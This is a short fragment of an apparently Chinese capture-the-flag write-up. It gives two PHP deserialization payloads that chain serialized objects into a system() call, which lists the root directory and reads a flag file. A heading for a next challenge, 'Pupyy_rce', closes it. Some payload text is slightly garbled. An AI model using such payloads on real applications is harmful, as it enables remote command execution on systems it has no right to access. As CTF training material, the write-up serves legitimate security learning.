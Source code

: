 payload: url=O:3:"syc":1: {s:4:"cuit";O:5:"lover":2:{s:3:"yxx";O:3:"web":2:{s:4:"eva1";s:6:"system";s:11:"interesting";s:4:"ls+/";}s:2:"QW";N;}} 看到根目录下有flag文件

![image-20231125164941759](assets/img/2023/11/image-20231125164941759.png)

payload: url=O:3:"syc":1:{s:4:"cuit";O:5:"lover":2: {s:3:"yxx";O:3:"web":2：{s:4:"eva1";s:6:"system";s:11:"interesting";s:9:"cat+/flag";}s:2:"QW";N;}} 读取在根目录的 flag文件

![image-20231125165118767](assets/img/2023/11/image-20231125165118767.png)

------

#### Pupyy_rce | 已完成

------
